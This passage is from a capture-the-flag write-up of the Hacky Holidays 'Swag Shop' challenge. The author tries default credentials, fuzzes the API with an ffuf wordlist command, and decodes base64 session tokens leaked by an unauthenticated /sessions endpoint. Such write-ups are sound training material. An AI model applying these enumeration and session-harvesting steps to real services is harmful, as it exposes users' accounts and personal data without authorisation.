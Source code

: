 And of course, like I allready knew, the Grinch is "Amazing in every possible way!". More on that later.  
{F1137443}
##Day 4 - Swag Shop
At Day 4 the Grinch started a new Swag Shop  
{F1137448}
and our job is it, to get the personal data of the grinch.
Do get a better understanding for the Swag Shop, I started to enumerate the application by useing all of its functions.
So after looking at a few request, I discorvered the following url: `https://hackyholidays.h1ctf.com/swag-shop/api/login`.
So there is an API to poke around with. I first tried some default/weak credentials on the login, like admin:admin etc. but that didn't worked out.
After that I tried to enumerate the API a bit more, so I spun up ffuf and fuzzed the API like: `ffuf -w /Wordlists/SecLists/Discovery/Web-Content/api/objects.txt -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ`
This gave me two new endpoints `/sessions` and `/user`. So let's take a look at [https://hackyholidays.h1ctf.com/swag-shop/api/sessions](https://hackyholidays.h1ctf.com/swag-shop/api/sessions) and see what we get:  
{F1137453}
```
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJZelZtTlRKaVlUTmtPV0ZsWVRZMllqQTFaVFkxTkRCbE5tSTBZbVpqTW1ObVpHWXpNemcxTVdKa1pEY3lNelkwWlRGbFlqZG1ORFkzTkRrek56SXdNR05pWmpOaE1qUTNZMlJtWTJFMk4yRm1NemRqTTJJMFpXTmxaVFZrTTJWa056VTNNVFV3WWpka1l6a3lOV0k0WTJJM1pXWmlOamsyTjJOak9UazBNalU9In0="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJaak0yTXpOak0ySmtaR1V5TXpWbU1tWTJaamN4TmpkbE5ETm1aalF3WlRsbVkyUmhOall4TldNNVkyWTFaalkyT0RVM05qa3hNVFEyTnprMFptSXhPV1poTjJaaFpqZzBZMkU1TnprMU5UUTJNek16WlRjME1XSmxNelZoWkRBME1EVXdZbVEzTkRsbVpURTRNbU5rTWpNeE16VTBNV1JsTVRKaE5XWXpPR1E9In0="
"eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ=="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRFJtWVRCaE4yRmlOalk1TUdGbE9XRm1ZVEU0WmpFMk4ySmpabVl6WldKa09UUmxPR1l3TWpJMU9HSXlOak0xT0RVME5qYzJZVGRsWlRNNE16RmlNMkkxTVRVek16VmlNakZoWXpWa01UYzRPREUzT0dNNFkySmxPVGs0TWpKbE1ESTJZalF6WkRReE1HTm1OVGcxT0RReFpqQm1PREJtWldReFptRTFZbUU9In0="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNMlEyTURJek5EZzVNV0UwTjJNM05ESm1OVEl5TkdNM05XVXhZV1EwTkRSbFpXSTNNVGc0TWpJM1pHUmtNVGxsWlRNMlpEa3hNR1ZsTldFd05tWmlaV0ZrWmpaaE9EZzRNRFkzT0RsbVpHUmhZVE0xWTJJeU1HVmhNakExTmpkaU5ERmpZekJoTVdRNE5EVTFNRGM0TkRFMVltSTVZVEpqT0RCa01qRm1OMlk9In0="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNV1kzTVRBek1UQmpaR1k0WkdNd1lqSTNaamsyWm1Zek1XSmxNV0V5WlRnMVl6RTBNbVpsWmpNd1ltSmpabVE0WlRVMFkyWXhZelZtWlRNMU4yUTFPRFkyWWpGa1ptRmlObUk1WmpJMU0yTTJNRFZpTmpBMFpqRmpORFZrTlRRNE4yVTJPRGRpTlRKbE1tRmlNVEV4T0RBNE1qVTJNemt4WldOaE5qRmtObVU9In0="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0="
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="
```
It looks like we get the sessions of all users as base64 string. If we look closer, you can see that one entry is quite longer then all other entries.
```
"eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ=="
```
If we base64 decode that entry, we get the following data:
```
"{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}"
```
We get a json object of a session for the user `C7DCCE-0E0DAB-B20226-FC92EA-1B9043`. 
If we decode the base64 cookie value we get a SHA-512 hash, so no luck with that value.
So let's have a look at the other `/user` endpoint [https://hackyholidays.h1ctf.com/swag-shop/api/user](https://hackyholidays.h1ctf.com/swag-shop/api/user).